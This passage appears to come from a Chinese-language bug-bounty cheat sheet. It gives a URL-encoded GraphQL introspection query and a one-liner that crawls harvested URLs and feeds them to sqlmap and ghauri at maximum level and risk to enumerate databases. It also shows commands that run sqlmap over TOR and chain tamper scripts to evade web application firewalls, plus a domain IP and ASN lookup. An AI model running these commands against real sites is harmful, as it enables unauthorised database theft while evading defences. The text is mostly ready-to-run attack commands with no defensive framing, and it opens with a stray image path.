 /?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}

相关文章：[https ://medium.com/@jonathanmondaut/from-developer-to-hacker-breaking-into-graphql-6083c80b4588](https://medium.com/@jonathanmondaut/from-developer-to-hacker-breaking-into-graphql-6083c80b4588)

## **SQLi 单行代码**

cat subs.txt | (gau || hakrawler || katana || waybckurls) | grep "=" | anew tmp-sqli.txt && sqlmap \-m tmp-sqli.txt \--batch \--random-agent \--level 5 \--risk 3 \--dbs && for i in $(cat tmp-sqli.txt); do ghauri \-u "$i" \--level 3 \--dbs \--current-db \--batch \--confirm; done

\_ 在 sqlmap/ghauri 的输出文件夹中找到哪个主机存在漏洞 root@bb:\~/.local/share/sqlmap/output:  
	find \-type f \-name "log" \-exec sh \-c 'grep \-q "Parameter" "{}" && echo "{}: SQLi"' \\;

\_ 使用 TOR 绕过 WAF  
	sqlmap \-r request.txt \--time-sec=10 \--tor \--tor-type=SOCKS5 \--check-tor \--dbs \--random-agent \--tamper=space2comment

使用 SQLmap Tamper 脚本绕过 WAF  
	sqlmap \--list-tampers | grep "\*" | awk '{print $2}' | grep ".py" | tr '\\n' ','| sed 's/.py//g'

	sqlmap \-u 'http://www.site.com/search.cmd?form\_state=1' \--level=5 \--risk=3 \--tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes \--no-cast \--no-escape \--dbs \--random-agent

## **查找单个域的 IP 和 ASN**

`dig +short target.com| xargs -n 1 -I {} whois -h whois.cymru.com {} | grep -oE "([0-9]{1,3}\.){3}[0-9]{1,3}"`
